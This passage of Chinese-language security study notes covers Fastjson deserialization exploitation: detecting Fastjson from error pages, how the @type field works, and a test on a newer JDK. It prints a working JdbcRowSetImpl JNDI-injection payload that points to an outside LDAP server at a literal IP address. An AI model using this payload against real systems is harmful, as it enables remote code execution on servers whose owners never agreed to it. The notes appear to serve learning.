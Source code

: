 成功后就是这个样子：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/1dc8deb680c84c558c536092aaa5bcd5.png" alt="img" style="zoom:50%;" />

#### 黑盒你怎么知道fastjson?所以利用漏洞poc

在500状态栏中有fastjson：

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/0a257c3625074776a0e8379bbbc327e5.png" alt="img"  />

在发送数据时为json数据：

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/b1994780d20c4d848a6224e4aed90200.png)

#### 白盒知道fastjson,那poc为什么那样写?

和上节课相同

![image-20251023205503082](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/image-20251023205503082.png)

关键点在这里，在`@Type`这里可以进行对调用类的修改。反序列化时进行转换。

#### 为什么可以在com.sun.rowset.JdbcRowSetImpl中使用lookup？

[跳转到调用检索部分](#调用检索)

#### 不同版本jdk8u_362

```java
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://47.83.186.173:1389/Test","autoCommit":true}
```

接收到了但没有反应，因为和fastjson逻辑还是不符合。

<img src="https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/a269126e5bad422883a51928cb89db90.png" alt="img" style="zoom: 50%;" />

#### 总结

![img](https://cdn.jsdelivr.net/gh/PWN022/0x00@main/NetSecurity/My_screenshot/47a2a638ae8141a2bd6e547d76accb59.png)